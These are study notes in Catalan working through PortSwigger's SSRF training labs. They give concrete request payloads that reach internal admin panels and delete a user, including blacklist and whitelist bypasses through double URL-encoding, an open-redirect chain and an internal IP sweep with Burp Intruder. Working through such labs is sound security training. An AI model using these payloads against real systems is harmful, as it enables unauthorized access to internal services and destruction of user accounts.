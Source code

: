 # Server-side request forgery (SSRF) LABS: https://portswigger.net/web-security/ssrf

### Tots els SSRF es faran dintre la pestanya de 'View Details>Check Stock'

## **Lab 1**: Basic SSRF against the local server

    - Tenim: stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    Seleccionem tot el paràmetre de 'stockApi' i li fem un URL Decoder: Ctrl+Shift+U.
        RESULTAT: stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
    - FEM: stockApi=http://localhost/admin&storeId=1
        Per veure el resultat, anem a l'apartat de RENDER en el Burpsuite:
            Tenim: Users (carlos i wiener) amb una opció de 'delete' al costat.
            Per eliminar aquest usuari, que és el que ens demanen, tornem a la part de RAW i busquem per 'carlos'.
            TROBEM: <a href="/admin/delete?username=carlos">Delete</a>
    
    - RESULTAT: stockApi=http://localhost/admin/delete?username=carlos&storeId=1

## **Lab 2**: Basic SSRF against another back-end system

    - TENIM: stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1
        - Deixem preparat: stockApi=http://192.168.0.1:8080/admin&storeId=1
        - I ho enviem a l'Intruder.
        - Fem un Clear§.
        - Seleccionem l'últim 1 de: 192.168.0.1
        - Fem un Add§.
        - Pestanya de Payloads.
        - Payload Type: Numbers
        - From: 1 / To: 254 / Step: 1
        - Start Attack
        - Veiem que tots dona un status code 400. Menys al número 70. Dona un 200.
    - FEM: stockApi=http://192.168.0.70:8080/admin&storeId=1
    
    - RESULTAT: stockApi=http://192.168.0.70:8080/admin/delete?username=carlos&storeId=1

## **Lab 3**: SSRF with blacklist-based input filter

    - TENIM : stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
        - PROVEM: stockApi=http://127.1/admin
        - URL DECODE de 'a' = stockApi=http://127.1/%61dmin
        - URL DECODE de '%' = stockApi=http://127.1/%2561dmin
    
    - RESULTAT: stockApi=http://127.1/%2561dmin/delete?username=carlos

## **Lab 4**: SSRF with filter bypass via open redirection vulnerability

    - TENIM: stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=/product/stock/check?productId=2&storeId=1
    - Veiem que no hi ha manera, necessitem anar per una redirecció. A la pàgina hi ha un 'Next Product'. Capturem el paquet
    - TENIM: GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/1.1
        - PROVEM A: GET /product/nextProduct?currentProductId=2&path=https:/google.es HTTP/1.1 -> Ens esta fent la redirecció cap a Google.
    - FEM: stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin
    
    - RESULTAT: stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=carlos

## **Lab 5**: Blind SSRF with out-of-band detection

    NEED BurpSuite Collaborator Client (Pro Version) - Pagant €

## **Lab 6**: SSRF with whitelist-based input filter

    - TENIM: stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
    - URL DECODE: stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
    - PROVEM: stockApi=http://localhost:8080
        - OUTPUT: "External stock check host must be stock.weliketoshop.net"
    - PROVEM: stockApi=http://localhost#@stock.weliketoshop.net:8080
      - URL DECODE 1: stockApi=http://localhost%23@stock.weliketoshop.net:8080
      - URL DECODE 2: stockApi=http://localhost%2523@stock.weliketoshop.net:8080 -> STATUS CODE 200 (estem a l'Admin Panel)
    -  FEM: stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin
    
    -  RESULTAT: stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos

## **Lab 7**: Blind SSRF with Shellshock exploitation

    NEED BurpSuite Collaborator Client (Pro Version) - Pagant €